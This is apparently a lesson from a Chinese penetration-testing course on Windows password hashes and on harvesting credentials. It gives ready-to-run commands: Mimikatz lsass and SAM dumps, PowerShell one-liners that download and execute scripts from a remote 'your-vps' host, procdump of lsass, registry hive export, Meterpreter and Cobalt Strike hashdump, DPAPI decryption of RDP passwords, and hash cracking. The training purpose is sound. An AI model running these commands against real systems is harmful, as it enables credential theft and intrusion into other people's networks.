



# 网络安全就业推荐 - P56：第20天：Windows哈希简介及系统用户密码凭证获取教程 🛡️💻


## 课程概述


在本节课中，我们将要学习Windows系统下的密码哈希基础知识，并掌握多种获取系统用户密码凭证的方法。课程内容分为三个主要部分：Windows哈希简介、系统用户密码凭证获取以及其他凭证获取技术。


---

## 第一部分：Windows哈希简介


上一节课我们介绍了Windows主机的信息收集。本节中，我们来看看Windows系统如何存储和处理用户密码。


### 什么是Windows哈希？

Windows哈希可以简单理解为Windows加密过的密码口令。用户输入的明文密码（例如 `admin123`）会经过特定的加密算法处理，生成一串哈希值。


Windows系统主要使用两种哈希处理方法：
*   **LM哈希 (LAN Manager Hash)**：一种较旧的加密方式，存在安全缺陷，密码最大长度为14位。
*   **NTLM哈希 (NT LAN Manager Hash)**：新版Windows系统默认使用的更安全的加密方式。


**核心公式/概念：**
*   `LM_Hash = Encrypt_LM(明文密码)`
*   `NTLM_Hash = Encrypt_NTLM(明文密码)`


在存储时，Windows密码哈希通常由两部分组成，格式为：
`用户名:RID:LM哈希:NTLM哈希:::`
例如：`Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0:::`


**用户SID与RID：**
每个Windows用户都有一个唯一的安全标识符（SID）。RID（相对标识符）是SID的最后一部分，用于区分同一域或计算机内的不同用户。例如，本地管理员账户的RID通常是500。


### Windows认证基础


Windows系统主要有三种认证方式：
1.  **本地认证**：用户直接登录到计算机本地账户。
2.  **网络认证**：用户远程访问工作组内其他计算机的共享资源。
3.  **域认证**：用户登录到域环境中的某台计算机。





**本地认证流程简述：**
1.  用户输入用户名和密码。
2.  系统将输入的密码计算成NTLM哈希值。
3.  系统从本地的SAM数据库文件中读取该用户存储的哈希值。
4.  比对两个哈希值，一致则登录成功。


SAM数据库文件路径：`C:\Windows\System32\config\SAM`
负责处理密码的进程：`lsass.exe`


**使用Python生成NTLM哈希示例：**
```python
import hashlib
def ntlm_hash(text):
    return hashlib.new('md4', text.encode('utf-16le')).hexdigest()
password = "admin123"
print(ntlm_hash(password)) # 输出NTLM哈希值
```


---


## 第二部分：系统用户密码凭证获取

理解了哈希的基本概念后，本节我们将学习十种获取系统密码哈希或明文凭证的实用方法。




以下是获取系统用户密码凭证的十种方法：


1.  **Mimikatz工具**
    Mimikatz是一款功能强大的凭证提取工具。它可以直接从`lsass.exe`进程内存中提取明文密码和哈希值。
    *   **非交互式获取哈希**：`mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit`
    *   **非交互式获取明文密码**：`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`


2.  **PowerShell脚本加载Mimikatz**
    通过PowerShell远程或本地加载Mimikatz的PS1脚本执行。
    ```powershell
    powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://your-vps/Invoke-Mimikatz.ps1'); Invoke-Mimikatz"
    ```

3.  **PowerShell脚本获取哈希**
    使用专门的PowerShell脚本直接导出哈希。
    ```powershell
    powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://your-vps/Get-PassHashes.ps1')"
    ```

4.  **WCE (Windows Credentials Editor)**
    另一款知名的哈希管理工具，直接运行可执行文件即可获取哈希。
    ```cmd
    wce.exe -w
    ```


5.  **Pwdump系列工具**
    例如Pwdump7，运行后自动导出哈希到文件。
    ```cmd
    PwDump7.exe > hashes.txt
    type hashes.txt
    ```


6.  **Ophcrack + 彩虹表**
    如果在线网站无法破解哈希，可以使用Ophcrack工具配合彩虹表进行离线破解。


7.  **Procdump + Mimikatz**
    利用微软官方工具Procdump导出`lsass.exe`进程内存，再用Mimikatz分析，常用于绕过杀毒软件。
    ```cmd
    procdump.exe -accepteula -ma lsass.exe lsass.dmp
    mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
    ```


8.  **注册表导出哈希**
    从注册表中导出存储哈希值的条目，再用工具解析。
    ```cmd
    reg save HKLM\SYSTEM system.hiv
    reg save HKLM\SAM sam.hiv
    mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" exit
    ```


9.  **Meterpreter (MSF) 内置模块**
    在获得Meterpreter会话后，可以使用内置模块获取哈希。
    ```msf
    meterpreter > getsystem
    meterpreter > hashdump
    # 或加载Mimikatz模块
    meterpreter > load mimikatz
    meterpreter > msv
    meterpreter > kerberos
    ```


10. **Cobalt Strike 内置命令**
    在Cobalt Strike的Beacon会话中，可以直接执行命令获取哈希或调用Mimikatz。
    ```cs
    beacon> hashdump
    beacon> logonpasswords
    beacon> mimikatz sekurlsa::logonpasswords
    ```


**工具上传与执行思路（以CS/MSF为例）：**
当通过CS或MSF获得一个Shell后，若想使用上述第三方工具（如`wce.exe`）：
1.  使用`upload`命令将工具上传到目标机器。
2.  在Shell中执行该工具，并将输出重定向到文件。
3.  使用`type`或`cat`命令查看文件内容，或直接下载文件到本地分析。


---


## 第三部分：其他凭证获取技术


除了系统用户密码，系统中还保存着许多其他有价值的凭证。本节我们来看看如何获取它们。

### 1. RDP连接记录与密码解密


远程桌面（RDP）连接历史记录中可能保存着通往其他内网机器的凭据。


**获取RDP连接记录：**
可以使用PowerShell脚本获取。
```powershell
powershell -exec bypass -f Get-RDPConnection.ps1
```
也可以通过查询注册表获取：
```cmd
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
```


**解密保存的RDP密码：**
如果用户在连接时勾选了“保存凭据”，密码会加密存储在以下位置：
`%USERPROFILE%\AppData\Local\Microsoft\Credentials\` 或 `%USERPROFILE%\AppData\Roaming\Microsoft\Credentials\`


解密步骤：
1.  使用Mimikatz列出凭据文件并获取对应的`GUID MasterKey`。
    ```cmd
    mimikatz.exe "dpapi::cred /in:C:\Users\[用户名]\AppData\Local\Microsoft\Credentials\[凭据文件GUID]" exit
    ```
2.  使用获取的`GUID MasterKey`查找对应的`MasterKey`。
    ```cmd
    mimikatz.exe "sekurlsa::dpapi" exit
    ```
3.  使用`MasterKey`解密凭据文件，获取明文密码。
    ```cmd
    mimikatz.exe "dpapi::cred /in:[凭据文件路径] /masterkey:[MasterKey]" exit
    ```


### 2. PPTP VPN口令获取


如果目标机器配置了PPTP VPN连接，可以尝试获取其连接口令。

1.  VPN配置信息通常位于：`%USERPROFILE%\AppData\Roaming\Microsoft\Network\Connections\Pbk\rasphone.pbk`
2.  使用Mimikatz提取`lsass.exe`中的秘密，可能包含VPN明文密码。
    ```cmd
    mimikatz.exe "privilege::debug" "sekurlsa::vpn" exit
    ```


### 3. MySQL数据库密码破解


在获取Web服务器权限后，可以尝试获取MySQL数据库密码。


1.  **定位密码哈希**：MySQL用户密码哈希存储在数据库目录的`user.MYD`文件中（路径通常为`mysql\data\mysql\`）。
2.  **提取哈希**：使用二进制编辑器（如WinHex）打开`user.MYD`文件，查找长字符串哈希值（形如`*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`）。
3.  **破解哈希**：
    *   **在线网站**：直接在cmd5等网站查询。
    *   **Hashcat工具**：
        ```bash
        hashcat -m 300 -a 3 [哈希值] ?a?a?a?a?a?a
        # -m 300 指定MySQL 4.1/5.x 哈希类型
        ```
    *   **John the Ripper工具**：
        ```bash
        john --format=mysql-sha1 [包含哈希的文件]
        ```

### 4. 常见软件密码获取


许多软件会将密码保存在本地或注册表中。可以使用`LaZagne`这类全能工具进行抓取。
```cmd
laZagne.exe all
```
该工具支持获取浏览器、数据库客户端、Wi-Fi、邮件客户端、Git、SVN等多种软件的保存密码。





---


## 课程总结

本节课中我们一起学习了：
1.  **Windows哈希基础**：了解了LM哈希和NTLM哈希的概念、格式以及Windows本地认证的基本流程。
2.  **十种凭证获取方法**：从使用经典的Mimikatz、PowerShell脚本，到利用MSF、CS等框架的内置功能，系统性地掌握了获取Windows系统用户密码哈希和明文的各种技术。
3.  **其他凭证扩展**：学习了如何获取和解密RDP连接密码、PPTP VPN口令，以及如何破解MySQL数据库密码和获取常见软件保存的密码。


核心要点在于：在Windows系统中，密码凭证可能以哈希形式存储在SAM数据库或`lsass.exe`进程内存中，也可能以加密形式保存在注册表或特定文件里。获取这些凭证是内网横向移动的关键步骤。请大家务必在授权环境下多加练习，熟练掌握这些工具和方法的原理与使用。